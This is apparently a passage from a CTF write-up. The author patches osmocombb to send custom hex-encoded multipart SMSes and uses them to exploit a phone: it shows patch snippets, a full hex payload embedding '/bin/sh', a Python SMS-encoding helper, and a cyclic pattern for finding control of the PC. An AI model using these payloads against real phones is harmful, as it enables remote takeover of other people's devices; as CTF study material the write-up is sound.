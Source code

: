 After a while playing with these software (and actually reading the source code) I found that if you type enable in the console you can use the `sms` command to send some SMSes.
The problem was that the interface was very limited. It was sending only single sms with the 7bit encoding scheme and was accepting only ASCII character. I needed to be more flexible to be able to produce multi-part SMSes.
I tried to sniff the output of `osmocombb` to be able to write a python script. But I quickly discovered that the full gsm protocol was involved.
This includes asking and obtaining a channel to actually communicate with the baseband. Implementing all this stuff was time consuming and, in ctf, you do not have much time. 
So, I decided to patch `osmocombb` software to implement a command that let me send a more customizable sms.

Full patch is available [`here`](/code/newphonewhodis_writeup/osmocombb_path.diff). The interesting stuff is:

Be able to specify that the packet contains a UDH header.
```c
   sms->ud_hdr_ind = atoi((char *)argv[1]);
```
Specify that the data was 8bit encoded and not 7bit encoded.
```c
   sms->data_coding_scheme = 4;
```
Write sms as hex encoded so that I could you any value.
```c
   char * text_hex = argv_concat(argv, argc, 3);
   char * text = hex2b(text_hex);
   int text_len = strlen(text_hex) / 2;
```

The result is a command like this where I specify that UHD is included and the sms is hex encoded:

```bash
smshex one 1 9999 05000317010a170069350100921a05b46b2a0100247017006935010069460b276b2a0100287017006935010001dfc0466b2a01002c70170069350100020012346b2a01003070170069350100253b24286b2a010034701700693501002f62696e6b2a010038701700693501002f7368006b2a01003c7017006935010001701700531f0100
```

## The attack
Now we can communicate via SMS with the phone and we also have a vulnerability. 

I wrote a small python function to encode SMSes:

```python
def encode_part(ref_num, data, CSMS=0x17, max_part=3):
    assert max_part <= 3
    header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)
    return header+data
```

We can craft few SMSes with payloads from the `cyclic` command of pwntools and find how to control the PC.

```python
c = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

print "smshex one 1 9999",encode_part(4, c[:134], max_part=1).encode("hex")
```
